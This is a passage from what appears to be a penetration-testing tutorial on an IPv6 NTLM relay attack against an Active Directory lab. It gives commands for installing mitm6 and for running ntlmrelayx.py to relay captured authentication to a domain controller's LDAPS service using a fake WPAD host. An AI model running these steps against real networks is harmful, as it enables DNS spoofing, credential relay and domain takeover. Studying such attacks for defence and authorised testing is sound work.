

NTLM Relay attack (ipv6)
This attack is very similar to the
NTLM
relay attack for IPv4 but this time for ipv6 protocol.
For ipv6 we will use the tool mitm6(
https://github.com/fox-it/mitm6) instead of Responder(
https://github.com/lgandx/Responder)
Install mitm6:
root@kali:/# git clone https://github.com/fox-it/mitm6.git
root@kali:/# cd mitm6
root@kali:/# pip install .
root@kali:/#
Attack phases
1. DNS spoofing: setup IPv6 of the attacker as DNS server
1. setup ntlmrelayx.py
root@kali:/# ntlmrelayx.py -6 -t ldaps://<IpDomainController> -wh fakewpad.marvel.local -l lootme
-6 → ipv6
-t <target> → in this case is the LDAP service(port 389) on the Domain
Controller.
Most of the time is more likely to use LDAPS( the “S” means Secure ) because most Company have
installed the certificate “Active Directory Certificate Services”
